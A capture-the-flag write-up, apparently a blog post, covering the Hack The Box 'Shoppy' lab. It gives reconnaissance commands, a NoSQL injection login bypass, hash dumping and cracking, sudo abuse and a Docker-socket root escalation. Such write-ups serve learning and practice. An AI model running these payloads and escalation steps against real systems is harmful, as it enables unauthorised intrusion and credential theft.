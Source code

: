```yaml
---
layout: post
title: "Shoppy"
date: 2025-04-20 
categories: CTPS Playlist
---
```

# attack path

First enumerate the open ports then use nmap to scan its service

```bash
rustscan -a 10.129.227.233

result:
Open 10.129.227.233:22
Open 10.129.227.233:80
Open 10.129.227.233:9093

sudo nmap -sC -sV -p 22,80,9093 10.129.227.233

```

Add shoppy.htb to /etc/hosts

Nothing on the site, let’s enumerate subdirectories

```bash
gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/common.txt

result:
/Admin                (Status: 302) [Size: 28] [--> /login]
/admin                (Status: 302) [Size: 28] [--> /login]
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/images               (Status: 301) [Size: 179] [--> /images/]
/js                   (Status: 301) [Size: 171] [--> /js/]
/login                (Status: 200) [Size: 1074]
/Login                (Status: 200) [Size: 1074]

```

Spotted the app to be run by nodejs which uses mongodb database which is vulnerable to nosql injection

```bash
In the login form:
username: admin' || '1' == '1

We get logged in
```

Now we get logged in there is a search user function. If the user exist then we get returned a export command which exports user and their hashes. We can use the same method as before to exploit the SQL injection vulnerability:

```bash
search: admin' || '1' == '1
Then click export and we get two users and their password hashes
```

![image.png]({{ site.baseurl }}/assets/shoppy/image.png)

Found user’s josh’s password through crackstation

We logged in as Josh and see nothing new, let’s try sshing. Does not work.

Let’s try enumerating for subdomains:

```bash
/usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt

ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://FUZZ.shoppy.htb -t 10

http://shoppy.htb/admin/

gobuster dir -u http://shoppy.htb/admin/ -w /usr/share/wordlists/dirb/common.txt

ffuf -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fw 5
```

For some reason the other ffuf command crashes wifi… 

Found subdomain mattermost. Login as user josh.

We check our sudo privleges

```bash
sudo -l

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
    
That means we can run the binary as the deploy user:

sudo -u deploy /home/deploy/password-manager
```

We find master password and the password manager gave us the credentials for user deploy. Now let’s login as user deploy

we get a shell. Let’s upgrade

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Running sudo results nothing. Running id tells us we are in the docker group

Let’s check what docker images there are:

```bash
docker image ls

result:
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   2 years ago   5.53MB
```

Let’s  mount root inside the container:

```bash
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it alpine chroot /mnt bash

And we get a root shell
```
